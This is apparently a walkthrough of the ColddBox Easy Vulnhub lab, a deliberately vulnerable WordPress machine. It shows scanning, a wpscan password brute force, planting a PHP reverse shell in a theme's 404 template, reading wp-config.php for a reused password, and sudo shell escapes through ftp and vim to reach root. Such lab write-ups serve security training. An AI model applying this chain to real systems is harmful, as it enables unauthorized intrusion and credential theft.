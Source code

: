 # ColdBox_Easy_Vulnhub_Machine_Walkthrough
DESCRIPTION: ColddBox Easy, it is a Wordpress machine with an easy level of difficulty, highly recommended for beginners in the field.

## Scanning

nmap 192.168.122.112

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled.png)

nmap -sV -A 192.168.122.112

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%201.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%201.png)

nmap -p- 192.168.122.112

nmap -p4512 -sV -A 192.168.122.112

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%202.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%202.png)

nikto -h http://192.168.122.112/

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%203.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%203.png)

### Enumeration

Browsing http://192.168.122.112

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%204.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%204.png)

Found nothing in [http://192.168.122.112/hidden/](http://192.168.122.112/hidden/) directory

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%205.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%205.png)

wp-scan -u [http://192.168.122.112/](http://192.168.122.112/) -e —wordlist /usr/share/seclists/Passwords/darkweb2017-top1000.txt

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%206.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%206.png)

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%207.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%207.png)

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%208.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%208.png)

Found password for user c0ldd: 9876543210

using credential c0ldd: 9876543210 for login

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%209.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%209.png)

starting listener on 4444

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2010.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2010.png)

open theme twetyfifteen and edit on 404 template

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2011.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2011.png)

Copy-Paste php-reverse-shell.php in editor and save

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2012.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2012.png)

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2013.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2013.png)

Open [http://192.168.122.112/](http://192.168.122.112/)wp-content/themes/twentyfifteen/404.php

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2014.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2014.png)

We got shell of www-data

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2015.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2015.png)

cd /home/c0ldd

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2016.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2016.png)

Found user.txt

cd /var/www/html

cat wp-config.php

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2017.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2017.png)

Found password for c0ldd user which is cybersecurity

Connect through ssh

ssh c0ldd@192.168.122.112 -p 4512

password: cybersecurity

cat user.txt

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2018.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2018.png)

### Privilege escalation

sudo -l

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2019.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2019.png)

FTP sudo /usr/bin/ftp 

!/bin/sh

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2020.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2020.png)

vim

sudo vim -c ':!/bin/bash'

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2021.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2021.png)

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2022.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2022.png)

cat root.txt

![ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2023.png](ColdBox%20Easy%20Vulnhub%20Walkthrough%206f9d2048865e44eeba6cc4e39dcb5fe9/Untitled%2023.png)
